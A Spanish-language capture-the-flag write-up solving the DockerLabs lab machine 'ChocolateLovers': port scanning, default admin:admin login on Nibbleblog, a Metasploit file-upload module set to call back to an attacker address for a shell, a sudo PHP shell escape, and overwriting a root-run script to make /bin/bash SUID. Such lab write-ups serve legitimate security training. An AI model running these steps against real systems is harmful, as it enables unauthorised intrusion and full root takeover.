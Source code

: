 #MAQUINA #DOCKERLABS #FACIL 
#ABUSO_SUBIDA_ARCHIVOS
#METASPLOIT #MSFCONSOLE
<hr>

# RECONOCIMIENTO

Vamos a resolver **ChocolateLovers** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:02 CET
Initiating ARP Ping Scan at 14:02
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 14:02, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:02
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 14:02, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-25 14:02:05 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:02 CET
Nmap scan report for 172.17.0.2
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds



```

   ```bash
nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 14:03 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un comentario al hacer CTRL + U -> **/nibbleblog**

# EXPLOTACION

Al revisar el nibbleblog , vemos que la versión tiene un exploitable en searchsploit.

   ```bash
searchsploit nibbleblog        
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                              | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                               | php/remote/38489.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Antes de enfocarnos en ello si fuese necesario, he probado a entrar como admin:
**usuario : admin**
**contraseña: admin**

Luego con **msfconsole** nos hemos otorgado una shell:

   ```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD admin
PASSWORD => admmin
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 172.17.0.1
LHOST => 172.17.0.1

```

# ESCALADA PRIVILEGIOS

Una vez nos hemos otorgado una shell completamente interactiva, vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@29e66507ff68:/$ sudo -l
Matching Defaults entries for www-data on 29e66507ff68:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 29e66507ff68:
    (chocolate) NOPASSWD: /usr/bin/php



```

Vemos **php** con permisos SUDO :
   ```bash
www-data@29e66507ff68:/$ sudo -u chocolate php -r "system('/bin/bash');"

```

YA ESTAMOS COMO CHOCOLATE

Vemos con **ps -ef** que root ejecuta un comando en bucle:
   ```bash
 ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 16:08 ?        00:00:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done

```

El script es nuestro, así que lo cambiamos para que bash tenga SUID
   ```bash

echo "<?php exec('chmod +s /bin/bash') ?>" >script.php 
chocolate@29e66507ff68:/opt$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
chocolate@29e66507ff68:/opt$ bash -p

```

**YA ESTAMOS COMO ROOT.**